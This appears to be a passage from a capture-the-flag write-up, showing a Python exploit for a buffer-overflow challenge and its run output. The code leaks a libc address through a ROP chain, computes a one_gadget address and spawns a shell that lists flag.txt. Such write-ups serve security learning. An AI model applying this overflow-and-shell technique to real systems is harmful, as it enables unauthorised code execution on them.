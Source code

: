 ```python
    offset_fclose       = 0x695e0
    diff_offset         = offset_fclose - offset_one_gadget

    payload  = b'A' * 64                                    ## fill buffer
    payload += struct.pack('Q', fclose_got+0x150)           ## ADDR used for write
    payload += struct.pack('Q', pop_rdi_ret)                ## POP addr to leak
    payload += struct.pack('Q', 0x400abc)                   ## 8 bytes + '\x00'
    payload += struct.pack('Q', slen_write)                 ## STRLEN / WRITE / READ

    target.tryexpect('Password: ')
    target.sendbin(payload)
    target.sendeof()
    target.flush()

    target.tryexpect(b'.*\x7f')
    raw = target.after[-6:]
    leak = struct.unpack('Q', raw.ljust(8, b'\x00'))[0]     ## LEAK fclose addr
    print('[+] Leaked fread addr: %s' % hex(leak))

    one_gadget = leak - diff_offset                         ## Calculate real addr for sh
    print('[+] one_gadget should be at: %s' % hex(one_gadget))

    payload  = b'/bin/sh\x00'
    payload += b'B'*(64 - len(payload))
    payload += struct.pack('Q', 0x42424242)                 ## RBP on .got
    payload += struct.pack('Q', one_gadget)                 ## one_gadget

    target.sendbin(payload)
    target.sendeof()

    target.pwned()
```

Binexpect is a module that wraps pexpect that you can find on [github](https://github.com/wapiflapi/binexpect)

## Profit

```bash
$ python sploit.py 
[+] Leaked fread addr: 0x7fc3150775e0
[+] one_gadget should be at: 0x7fc31504f320

      ▄▄▄·▄▄▌ ▐ ▄▌ ▐ ▄ ▄▄▄ .·▄▄▄▄      ▄• ▄▌.▄▄ · ▪   ▐ ▄  ▄▄ •
     ▐█ ▄███· █▌▐█•█▌▐█▀▄.▀·██▪ ██     █▪██▌▐█ ▀. ██ •█▌▐█▐█ ▀ ▪
      ██▀·██▪▐█▐▐▌▐█▐▐▌▐▀▀▪▄▐█· ▐█▌    █▌▐█▌▄▀▀▀█▄▐█·▐█▐▐▌▄█ ▀█▄
     ▐█▪·•▐█▌██▐█▌██▐█▌▐█▄▄▌██. ██     ▐█▄█▌▐█▄▪▐█▐█▌██▐█▌▐█▄▪▐█
     .▀    ▀▀▀▀ ▀▪▀▀ █▪ ▀▀▀ ▀▀▀▀▀•      ▀▀▀  ▀▀▀▀ ▀▀▀▀▀ █▪·▀▀▀▀
 ▄▄▄▄    ██▓ ███▄    █ ▓█████ ▒██   ██▒ ██▓███  ▓█████  ▄████▄  ▄▄▄█████▓
▓█████▄ ▓██▒ ██ ▀█   █ ▓█   ▀ ▒▒ █ █ ▒░▓██░  ██▒▓█   ▀ ▒██▀ ▀█  ▓  ██▒ ▓▒
▒██▒ ▄██▒██▒▓██  ▀█ ██▒▒███   ░░  █   ░▓██░ ██▓▒▒███   ▒▓█    ▄ ▒ ▓██░ ▒░
▒██░█▀  ░██░▓██▒  ▐▌██▒▒▓█  ▄  ░ █ █ ▒ ▒██▄█▓▒ ▒▒▓█  ▄ ▒▓▓▄ ▄██▒░ ▓██▓ ░
░▓█  ▀█▓░██░▒██░   ▓██░░▒████▒▒██▒ ▒██▒▒██▒ ░  ░░▒████▒▒ ▓███▀ ░  ▒██▒ ░
░▒▓███▀▒░▓  ░ ▒░   ▒ ▒ ░░ ▒░ ░▒▒ ░ ░▓ ░▒▓▒░ ░  ░░░ ▒░ ░░ ░▒ ▒  ░  ▒ ░░
▒░▒   ░  ▒ ░░ ░░   ░ ▒░ ░ ░  ░░░   ░▒ ░░▒ ░      ░ ░  ░  ░  ▒       ░
 ░    ░  ▒ ░   ░   ░ ░    ░    ░    ░  ░░          ░   ░          ░
 ░       ░           ░    ░  ░ ░    ░              ░  ░░ ░ @wapiflapi
------░------------------------------------------------░-----------------
- Powered by pexpect, works best with linux and gxf -
-------------------------------------------------------------------------
Escape character is '^]'
ls
flag.txt
```